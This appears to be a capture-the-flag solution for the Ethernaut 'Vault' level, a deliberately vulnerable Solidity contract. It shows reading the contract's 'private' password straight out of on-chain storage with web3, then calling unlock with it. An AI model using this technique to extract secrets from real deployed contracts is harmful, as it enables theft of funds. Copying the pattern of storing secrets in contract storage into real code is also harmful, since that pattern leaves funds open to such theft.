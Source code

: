 # Vault level  image
Goal:
- Unlock the vault to pass the level!
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
solution:
```javascript
await web3.eth.getStorageAt(instance,0);
'0x0000000000000000000000000000000000000000000000000000000000000001'
```
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
await contract.locked()
false
